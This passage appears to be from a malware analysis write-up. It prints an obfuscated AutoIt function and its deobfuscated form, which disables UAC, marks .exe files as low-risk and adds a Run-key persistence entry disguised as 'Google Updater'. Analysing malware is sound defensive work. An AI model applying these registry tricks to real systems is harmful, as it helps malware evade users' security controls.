 
```autoit
FUNC RVPXQLAJKE()
GLOBAL $YCWNQBR=CWOBNUHCIIE(WOLHQ(""&$OUXWGELHRGIU&""&$EOCTVVV[138]))
$YCWNQBR(ODACGP(""&$EOCTVVV[189]&$WXZOIJEF&""&$EOCTVVV[190]&"c"&""&HKSWCCPRWQLF()&""&$EOCTVVV[191]&QTJJHKCWXC()&OTRPNJBHHKC()&$EOCTVVV[192]&""&ASFNJML()&""&HGBWLUYBXO()&""&$QWLHZWPW&$EOCTVVV[193]&""&YFILFF()&""&$TRWVKDTQIVPU&""&EAHELMICVYNV()&"."&$XEVMWGNCPKV&""&JQAZMRDPILOP()&$EOCTVVV[194]&ZHYTNEFE()&"7Uv"&$EOCTVVV[195]&""&$EOCTVVV[196]&"7"&""&$VTDTSWFRQ&""&$DFQOUG&$EOCTVVV[197]&MYDIYUWOT()&$PDNRR&""&"7UvB"),TTVTVYBPTA(""&$XJBOPI&""&"U>(7"&""&$EOCTVVV[198]&""&QQUUIZCSUQX()&$EOCTVVV[199]&""&$EOCTVVV[200]&""&$EOCTVVV[201]),QIXJGYPSJIMH(""&$EOCTVVV[143]&$CHTGOV&""&$EOCTVVV[144]&"+"),YXQDHJMVIONP("3"&""&ERDYBAC()&""&$EOCTVVV[203]))
$YCWNQBR(IVVHXHXDBJQM(CVOEGKHVDJ()&""&"VA"&""&$BSVTGFVXVUJS&AMASWOE()&""&CJTNQQKYFW()&""&$VVVHGXXKCCSH&""&$UIBXODDQQMGY&$TRVLC&""&$PCPFKRYLH&""&$EOCTVVV[204]&""&MJWTXNNKB()&$EOCTVVV[205]&"r#"&""&$EOCTVVV[206]&UAVTLYJGU()&""&$OJAJYNLLE&FDDNC()&""&$EOCTVVV[207]&""&BSMJVFE()&""&$EOCTVVV[208]&"U"&""&DYKVO()&""&$XBIABJZA&""&$APBDIESRQY&"U0"&$EOCTVVV[209]&$EOCTVVV[210]&GNVXCFLPMG()&$EOCTVVV[211]&CPEHD()&IOBGXYMRY()&""&$EOCTVVV[212]&$FMTPDYBY&YURIQX()),TTVTVYBPTA(""&$XJBOPI&""&"U>(7"&""&$EOCTVVV[198]&""&QQUUIZCSUQX()&$EOCTVVV[199]&""&$EOCTVVV[200]&""&$EOCTVVV[201]),QIXJGYPSJIMH(""&$EOCTVVV[143]&$CHTGOV&""&$EOCTVVV[144]&"+"),YXQDHJMVIONP("3"&""&ERDYBAC()&""&$EOCTVVV[203]))
$YCWNQBR(APDLAXURFE("Jj"&$JLPGTDZZRI&XZETIB()&""&OYPYWF()&$EOCTVVV[217]&""&"U"&""&$EOCTVVV[218]&""&OVAOZMKT()&""&"r"&""&$EOCTVVV[219]&""&$EOCTVVV[220]&$PZTBF&TQJKZAW()&""&"v"&""&$EOCTVVV[221]&""&"BVP"&MABUKN()&""&$PXTDDAGQW&$JZECPRYL&""&$NMHNAWNGV&$IUGGJZ&"ID"&""&ZJQGJE()&""&$EOCTVVV[222]&""&$EOCTVVV[223]&$EOCTVVV[224]&""&"V "&$EOCTVVV[225]&$EOCTVVV[226]&""&"7["&$GBZZOZJDX&RSYIQL()&$EOCTVVV[227]&"VA5"&""&$CMCTOCPJHCJ&"#D"&""&HZLBQDUOKMDD()),AUBRG(""&$VCZPQAVXX&""&$EOCTVVV[228]&""&XINGZF()&"q"&""&$RMZKM&""&"Q"),TCAQY(""&"("&""&$FQDFZP&$OZFISFG&""&$EOCTVVV[229]&""&$HKJLTXZKR&""&$QGBMBH),0/181)
$YCWNQBR(URWRJWEGKHFP(CCHHARY()&""&$EOCTVVV[230]&""&"V"&""&$CFAVC&""&$TYYKOVZIPSXR&""&TSMXRWEFNU()&""&$EOCTVVV[231]&$VKJGWPXN&""&$EOCTVVV[232]&"U>"&$YINOLEXNH&LQHUPSISLG()&""&$GGCTYZLZSS&""&$EOCTVVV[233]&$ZWGCKGHO&XYUZM()&""&"D"&"CB7"&""&$EOCTVVV[234]&$LXSWVM&""&$EOCTVVV[235]),IFFNOZRNC(",UU"&""&$PGUNYACKTS&""&"D<"&"t"&""&"i"&""&$BJQTXTZK&"c"&""&$TCUTKMXHC),QIXJGYPSJIMH(""&$EOCTVVV[143]&$CHTGOV&""&$EOCTVVV[144]&"+"),$XBOBI&HFZLETU(""&$EOCTVVV[148])&IHTYLQFKUMW("cii"&$EOCTVVV[173]&$EOCTVVV[174]&""&$EOCTVVV[175]))
EVEOM()
ENDFUNC
```

This function, after a manual analysis, was found to be like this:

```autoit
FUNC RVPXQLAJKE()
  GLOBAL $RegWrite_=EXECUTE(RegWrite)
  $RegWrite_("HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Associations","LowRiskFileTypes","REG_SZ",".exe")
  $RegWrite_("HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Associations","LowRiskFileType","REG_SZ",".exe")
  $RegWrite_("HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System","EnableLUA","REG_DWORD",0)
  $RegWrite_("HKLM\Software\Microsoft\Windows\CurrentVersion\Run","Google Updater","REG_SZ",$TargetPath_&"\app.exe")
  ShellExecuteComand()
ENDFUNC
```

After having a readable Autoit script we got the real entry point of the second stage so we started to analyse the sample.

